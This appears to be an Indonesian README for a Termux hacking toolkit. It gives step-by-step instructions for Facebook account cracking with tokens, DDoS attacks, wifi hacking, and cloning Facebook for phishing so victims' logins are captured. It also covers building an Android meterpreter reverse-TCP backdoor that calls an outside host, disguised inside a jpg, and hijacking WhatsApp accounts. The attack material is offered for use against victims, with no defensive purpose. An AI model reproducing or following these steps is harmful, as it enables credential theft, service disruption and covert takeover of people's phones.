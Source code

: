 ArufiToolsv1

pkg update && pkg upgrade
pkg install git
pkg install nano
git hub https://github.com/Mr_AnonyWolf/ArufiToolsv1
cd Mr_AnonyWolf
chmod 755 ArufiToolsv1.sh
sh ArufiToolsv1.sh

Terdapat tools didalamnya diantaranya
-DarkFB king
-DDos attack 1-Liteddos
             2-Hammer
             3-Torshammer
-Wifi hacker
-Red Hawk
-Weeman
-Metasploit Framework
-Whatshack

Cara menjalankannya setelah diinstall

1- DarkFB king
              cd DARK_KING
              nano login.txt untuk menyimpan token facebook cari aja digoogle cara dapat token fbnya
              setelah dicopy paste terus ctrl+s dan ctrl+x
              chmod 755 dog.py
              python2 dog.py
              Tanpa token kamu akan kena checkpoint

2- DDOS ATTACK
              1- Liteddos
                         cd LITEDDOS
                         python2 LITEDDOS.py -nama ip -nama port(default 80) -banyak paket(default 135)

              2- Hammer
                       cd hammer
                       chmod 755 hammer.py
                       python hammer.py -nama ip -nama port(default 80) -banyak paket(default 135)
  
   untuk mencari ip website tinggal ketik
   ping (alamat website/url website)
   ctrl+c(^C) untuk memberhentikan ping

3- Wifi Hacker
              cd wifi-hacker
              sh wifi-hacker.sh

4- Red Hawk
           cd RED_HAWK
           php rhawk.php
           ketik nama website www.(nama website).com jangan memakai http:// atau https://
           lalu pilih http atau https tergantung website yang memakainya
           
5- Weeman
         cd weeman
         chmod 755 weeman.py
         python2 weeman.py
         ketikkan nama website untuk diclone contoh set url  https://www.facebook.com
         ketik lagi nama website yang sama dengan set action_url
         show
         buka new session untuk lembar baru
         ketik ifconfig dilembar baru
         balik lagi ke lembar weeman terus run
         copy addressnya ke korban
         tunggu sampai korban login
         
6- Metasploit Framework
                       chmod +× metasploit.sh
                       ./metasploit.sh (jika mau menjalankan lagi setelah chmod)
                       
                       untuk membuat backdoor harus koneksi ke server dulu
                       >ssh -R <public-port>:localhost:<local-port> serveo.net
                       contoh
                       >ssh -R 3387:localhost:4444 serveo.net
                       @ sampai muncul tulisan hijau : Forwarding TCP connections from serveo.net:3387
                       
                       setelah itu ping serveo.net nya apakah merespon atau tidak. pencet new session
                       ping serveo.net

                       sekarang buat backdoornya. lanjut ke new session yang baru lagi
                       termux-setup-sdcard (untuk mengizinkan akses sdcard)
                       msfvenom -p android/meterpreter/reverse_tcp LHOST=159.89.214.31 LPORT=3387 -o $HOME/backdoor.apk
                       
                       jika telah diinstall, maka copy gambar file.jpg ke termux
                       contoh
                       cd /sdcard/DOWNLOAD
                       cp -R images.jpg $HOME
                       cd

                       sekarang tinggal satukan backdoor aplikasi dengan images.jpg
                       cat images.jpg backdoor.apk > namaimages.jpg
                       
                       setelah berhasil bikin payload images, sekarang tinggal lancarkan penyerangannya
                       msfconsole
                       msf5 > use exploit/multi/handler
                       msf5 > set payload android/meterpreter/reverse_tcp
                       msf5 > set LHOST 0.0.0.0
                       msf5 > set LPORT 4444
                       msf5 > run
                       > open payload imagesnya
                       meterpreter > ...

                       jika ssh tidak bisa tersambung ke meterpreter, gunakan ngrok

7- Whatshack
            cd whatshack
            chmod 755 whatshack.sh
            sh whatshack.sh
            no hpmu dan no target

            tunggu proses sampai 5-10 menit
            jika tidak work atau lama, perhatikan/cek jaringan anda lalu coba lagi atau tunggu saja sampai dapat

Control(CTRL)+c untuk menghentikan script/animasi secara manual

*Developed by MrAnonyWolf  
